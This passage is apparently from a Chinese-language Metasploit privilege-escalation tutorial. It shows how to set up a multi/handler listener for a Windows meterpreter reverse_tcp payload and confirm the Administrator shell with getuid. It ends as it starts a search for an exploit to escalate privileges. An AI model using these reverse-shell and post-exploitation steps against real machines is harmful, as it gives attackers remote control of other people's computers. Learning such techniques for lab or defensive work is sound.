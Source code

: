 设置监听

```bash
use exploit/multi/handler # 进入监听模块
set payload windows/meterpreter/reverse_tcp # 设置payload反弹
set lhost 0.0.0.0 # 设置LHOST;0.0.0.0什么都监听
set lport 4848 # LPORT参数监听4848端口
exploit # 启动监听
```

![启动监听](./MSF提权/启动监听.png)

对方执行生成的exe文件后，拿到shell，这里面有会话`session`这个很重要。

![连接结果](./MSF提权/连接结果.png)

可以执行命令。

```bash
getuid
```

可以看到这个是Adnministrator权限。

![getuid](./MSF提权/getuid.png)

接下来我们可以根据漏洞进行提权，退出shell交互。

```bash
search 漏洞编号 # 搜索对应的漏洞
```

![搜索](./MSF提权/搜索.png)
